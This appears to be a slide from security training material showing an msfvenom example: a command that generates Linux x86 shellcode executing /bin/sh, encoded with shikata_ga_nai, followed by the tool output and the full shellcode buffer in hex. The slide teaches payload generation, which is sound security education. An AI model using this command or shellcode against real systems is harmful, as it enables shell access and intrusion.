

# MSFvenom example
Example use:
msfvenom -p linux/x86/exec CMD='/bin/sh' -a x86 -b '\x00' -i 3
Output:
[*] x86/shikata_ga_nai succeeded with size 70 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 97 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 124 (iteration=3)
buf =
"\xda\xd1\xd9\x74\x24\xf4\x5d\x31\xc9\xbb\x81\x4c\x7b\x16" +
"\xb1\x19\x31\x5d\x18\x83\xc5\x04\x03\x5d\x95\xae\x8e\xad" +
"\x20\x6e\x82\x1b\x97\xaf\xbd\xe8\x03\xc4\x63\x20\x82\x95" +
"\x8e\xc1\xd1\xd2\x9f\x98\xc9\xd9\x82\x32\xbe\x68\x15\x3d" +
"\x0e\xd1\x8c\x24\x46\xfa\xe9\x89\x21\x6b\x05\x2e\xfb\xf6" +
"\xf5\xda\xc7\x52\xb1\x1d\xf0\x2e\x94\xfc\xb8\x1d\x06\x18" +
"\x0c\xb5\xe7\xd2\x3b\x4b\x4c\x12\xd3\x6d\xed\xd3\x6a\x58" +
"\xf1\x39\x87\x77\xad\x1d\x46\xca\x55\x90\xdf\xae\xa5\x7d" +
"\x23\xf9\x6c\x3b\xba\x61\xf5\xd9\x63\xa2\xd3\x69"